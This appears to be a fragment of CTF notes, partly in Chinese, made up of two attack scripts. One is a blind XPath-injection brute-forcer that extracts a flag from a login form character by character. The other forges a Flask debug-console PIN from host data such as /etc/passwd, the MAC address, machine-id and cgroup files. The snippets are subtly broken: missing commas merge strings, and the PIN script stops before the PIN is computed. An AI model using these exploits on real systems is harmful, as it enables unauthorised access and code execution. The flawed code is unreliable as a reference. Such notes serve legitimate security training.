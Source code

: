 ```python
        data={
            "username":payload_username,
            "password":123,
            "submit":"1"
        }
        #
        # payload_password ="<username>'or substring(/root/accounts/user[2]/password/text(), {}, 1)='{}'  or ''='</username><password>3123</password><token>{}</token>".format(i,j,token[0])


        print(payload_username)
        r = requests.post(url=url,data=data)
        time.sleep(0.1)
        # print(r.text)
#003d7628772d6b57fec5f30ccbc82be1

        if "登录成功" in r.text:
            flag+=j
            print(flag)
            break

    if "登录失败" in r.text:
        break

print(flag)

```
# Flask PIN值计算
[[Misc/Flask_pin]]
```python
import hashlib
from itertools import chain
 
probably_public_bits = [
    'root'  # username 可通过/etc/passwd获取
    'flask.app',  # modname默认值
    'Flask',  # 默认值 getattr(app, '__name__', getattr(app.__class__, '__name__'))
    '/usr/local/lib/python3.10/site-packages/flask/app.py'  # 路径 可报错得到  getattr(mod, '__file__', None)
]
 
private_bits = [
    '77154419714822',  # /sys/class/net/eth0/address mac地址十进制
    '96cec10d3d9307792745ec3b85c89620docker-ad2da0cd088fbb15c29dfb699899a4d50788db7f47701e9ad0ff4c79169249b4.scope'
 
    # 字符串合并：首先读取文件内容 /etc/machine-id(docker不用看) /proc/sys/kernel/random/boot_id   /proc/self/cgroup
    # 有machine-id 那就拼接machine-id + /proc/self/cgroup  否则 /proc/sys/kernel/random/boot_id + /proc/self/cgroup
]
 
# 下面为源码里面抄的，不需要修改
h = hashlib.sha1()
for bit in chain(probably_public_bits, private_bits):
    if not bit:
        continue
    if isinstance(bit, str):
        bit = bit.encode('utf-8')
    h.update(bit)
h.update(b'cookiesalt')
 
cookie_name = '__wzd' + h.hexdigest()[:20]
```